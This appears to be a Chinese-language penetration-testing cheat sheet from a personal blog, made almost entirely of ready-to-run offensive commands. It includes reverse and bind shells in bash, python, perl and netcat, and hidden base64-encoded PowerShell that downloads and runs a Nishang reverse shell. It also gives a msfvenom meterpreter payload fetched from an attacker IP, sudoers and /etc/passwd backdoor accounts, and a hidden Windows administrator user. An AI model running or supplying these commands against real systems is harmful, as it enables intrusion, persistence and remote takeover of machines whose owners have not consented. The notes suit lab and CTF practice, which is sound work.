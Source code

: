```yaml
---
typora-root-url: ../../../static
title: "渗透笔记"
date: 2021-01-01T21:28:36+08:00
draft: false
tags: ["note"]
categories: ["security"]
---
```


## 获取shell后
- 开启清屏： `export TERM=screen # 赋值xterm也可以`
- 查看sudo权限： `sudo -l`
- 尝试生成公钥文件到用户目录下的 `.ssh` 下： `echo "xxxx" > /home/p1n93r/.ssh/authorized_keys` ，然后就可以免密ssh登录了： `ssh p1n93r@192.168.189.5 -i id_rsa`
- 创建用户且赋予root权限(已拿到root)： `adduser p1n93r` ，然后 `passwd p1n93r` ，然后赋予sudo权限 `echo "p1n93r    ALL=(ALL:ALL) ALL" >> /etc/sudoers`
- 使用python获取一个完全交互式的tty： `python -c 'import pty;pty.spawn("/bin/bash")'`
- 查看任务计划： `cat /etc/crontab`
- 查看内核版本： `uname -r`


## 常用工具
- 发现主机： `nmap -sn 192.168.189.0/24`
- 扫描主机： `nmap -A -sS -p- 192.168.189.5`
- 生成字典： `crunch 10 10 abcd -o pwd.txt`
- 爆破密码： `john --wordlist=/usr/share/wordlist/rockyou.txt encry`
- Java降级编译： `javac -source 1.7 -target 1.7 Exploit.java`

## 反弹shell
（1）反向连接

攻击机开启监听： `nc -lvnp 7777`

靶机执行命令：

	#bash反弹
	bash -i >& /dev/tcp/192.168.10.27/4444 0>&1
	#python反弹
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.10.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
	#Perl反弹
	perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")

（2）正向连接

攻击机： `nc -lvnp 7777` 

靶机： `nc [ip] 7777 -e /bin/bash` 

（3）windows反弹shell

攻击机： `nc -lvnp 7777` 

靶机： `powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp  -Reverse -IPAddress [ip] -Port 9999"`

（4）powershell base64

	$fileContent = "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp  -Reverse -IPAddress 49.234.105.98 -Port 9999"
	$bytes = [System.Text.Encoding]::Unicode.GetBytes($fileContent)
	$encodedCommand = [Convert]::ToBase64String($bytes)
	echo $encodedCommand

	# 靶机执行如下命令
	powershell -nop -noni -w hidden -exec bypass -enc [Base64Str]

（5）msfvenom生成反弹powershell并执行

	msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=49.xxx.xxx.xxx lport=4578 -f psh-reflection -o shell.ps1

	// 靶机执行
	powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://49.xxx.xxx.xxx:8080/shell.ps1')"


## 提权
### SUID提权
以下命令将尝试查找具有root权限的SUID的文件，不同系统适用于不同的命令，一个一个试：

	find / -perm -u=s -type f 2>/dev/null
	find / -user root -perm -4000-print2>/dev/null
	find / -user root -perm -4000-exec ls -ldb {} \;

### 工具扫描
- LinEnum：`https://github.com/rebootuser/LinEnum`
- linuxprivchecker：`https://github.com/sleventyeleven/linuxprivchecker`

### gcc编译
例如脏牛提权，直接gcc编译会失败，提示缺少库，所以可以使用如下方式编译：

	gcc -pthread dirty.c -o dirty -lcrypt


## 一些场景
### 端口敲门
发现存在这个文件： `/etc/knockd.conf` 文件，就是配置了端口敲门策略，需要根据其配置来进行端口敲击才能连接响应的端口，例如如下knockd.conf配置：

	[options]
		UseSyslog
	
	[openSSH]
		sequence    = 7469,8475,9842
		seq_timeout = 25
		command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
		tcpflags    = syn
	
	[closeSSH]
		sequence    = 9842,8475,7469
		seq_timeout = 25
		command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
		tcpflags    = syn

代表需要依次敲击7469、8475和9842端口，才能开放SSH服务，所以在攻击机上安装knockd工具进行敲击即可：

	sudo apt-get install knockd
	knockd 192.168.189.10 7469 8475 9842

### 利用 `/etc/passwd` 提权
首先生成加密后的密码：

	perl -le 'print crypt("your_password","salt")'

然后将加密后的密码和其他配置添加到 `/etc/passwd` （前提是有编辑权限咯）下：

	echo "p1n93r:xxxx:0:0:root:/root:/bin/bash"
	su p1n93r

### 开启windows rdp
- 设置远程桌面端口：reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /t REG_DWORD /v portnumber /d 3389 /f
- 开启远程桌面：wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
- 检查端口状态：netstat -an|find "3389"
- 关闭远程桌面：wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 0
- 防火墙放行3389端口：netsh advfirewall firewall add rule name="无所谓" dir=in protocol=tcp localport=3389 action=allow

### 添加简单影子用户
	net user pinger$ Pingerp1n93r /add
	net localgroup administrators pinger$ /add 